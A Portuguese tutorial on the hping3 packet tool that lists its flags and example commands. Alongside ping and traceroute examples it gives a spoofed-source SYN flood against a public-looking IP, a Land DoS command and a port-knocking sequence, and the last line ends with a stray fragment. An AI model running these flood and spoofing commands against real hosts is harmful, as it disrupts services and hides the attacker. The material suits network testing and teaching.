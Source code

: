 
---

``hping3`` - É uma ferramenta de linha de comando usado principalmente para realizar testes e diagnósticos de rede. Ela permite enviar pacotes de diferentes protocolos, como TCP, UDP e ICMP, e é conhecido por sua flexibilidade em manipular as características dos pacotes (porta, sequência, flags, etc.), tornando-se uma ferramenta poderosa para administradores de rede e profissionais de segurança cibernética. 

Aqui estão algumas das principais funcionalidades do `hping3`:

1. **Teste de Conectividade**: Pode ser usada para verificar a conectividade entre dispositivos na rede.
2. **Testes de Firewall**: Por poder manipular pacotes, o `hping3` é útil para testar regras de firewall e verificar se um firewall está filtrando pacotes corretamente.
3. **Simulação de Ataques (Ethical Hacking)**: Ferramenta comum para simulação de ataques de negação de serviço (DDoS) e verificação de segurança.
4. **Traceroute**: Assim como o comando `traceroute`, o `hping3` pode rastrear a rota até o destino, mas com mais flexibilidade na configuração dos pacotes.
5. **Medição de Performance**: Útil para medir latências e identificar perdas de pacotes na rede.

Para usar o `hping3`, você precisa de permissões de superusuário na maioria dos sistemas, devido ao acesso direto ao envio de pacotes.

**Os principais parâmetros do hping3 são:** 
-  ``-V`` Modo Verbose; 
- ``-c`` Contador de pacotes; 
- ``-d`` Tamanho do dado; 
- ``-p`` Porta de destino; 
- ``-s`` Porta de origem; 
-  ``–rand-source`` Randomização da origem; 
-  ``–fast`` 10 pacotes por segundo; 
-  ``–faster`` 100 pacotes por segundo; 
-  ``–flood`` Máximo de pacotes possíveis por segundo;
- ``-a`` falsificação do endereço IP de origem;
### Como usar? 

1. Teste de ICMP: o hping3 pode ser usado como um ping normal, enviando ICMPecho e recebendo resposta de ICMP; 
   ``hping3 -1 exemplo.com.br ``

2. Traceroute usando ICMP: este exemplo é semelhante a utilitários famosos como tracert (windows) ou traceroute (linux) que usam pacotes ICMP aumentando cada vez em 1 seu valor TTL. 
   ``hping3 --traceroute -V -1 exemplo.com.br ``

3. Enviar 10 mil segmentos TCP com bit syn na porta 80, fazendo uma falsificação do IP de origem para o IP 1.2.3.4:          
   ``hping3 --flood --syn -c 10000 -a 1.2.3.4 -p 80 200.157.25.8`` 

4. Ataque de DoS Land (IP de origem e destino são iguais):
   ``hping3 -V -c 1000 -d 100 -S -p 21 -s 80 -k -a 192.168.1.110 192.168.1.110``

5. Simulando um ataque PortKnocking, para abrir uma determinada porta: 
   ``hping3 -c 1 -S -p 13 37.59.174.235; hping3 -c 1 -S -p 37 37.59.174.235; hping3 -c 1 -S -p 30000 37.59.174.235;  hping3 -c 1 -S -p 3000 37.59.174.235ping3 ``
   